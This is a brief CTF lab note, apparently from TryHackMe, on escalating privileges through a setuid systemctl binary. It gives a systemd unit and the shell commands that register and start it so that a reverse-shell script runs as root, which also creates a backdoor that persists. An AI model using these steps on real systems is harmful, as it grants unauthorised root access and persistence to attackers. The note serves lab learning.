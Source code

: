```yaml
---
title: SystemD Backdoor Unit
tags:
- tryhackme
- snippet
- shell
- linux
---
```


If `systemctl` has setuid to root (not that this should ever happen), this can escalate privs

In a TryHackMe room, I had execution as `www-data`, meaning that I could write to `/var/www/html` due to being writable by user.

## Unit

```unit file (systemd)
[Unit]
Description=example systemd service unit file.

[Service]
ExecStart=/bin/bash /var/www/html/revshell.sh

[Install]
WantedBy=multi-user.target
```

Assuming `/var/www/html/revshell.sh` is a reverse shell

To setup
```bash
mkdir -p /var/www/html/services
cat > /var/www/html/services/myshell.service << EOF
[Unit]
Description=example systemd service unit file.

[Service]
ExecStart=/bin/bash /var/www/html/revshell.sh

[Install]
WantedBy=multi-user.target

EOF

systemctl link /var/www/html/services/myshell.service
systemctl start myshell.service
```
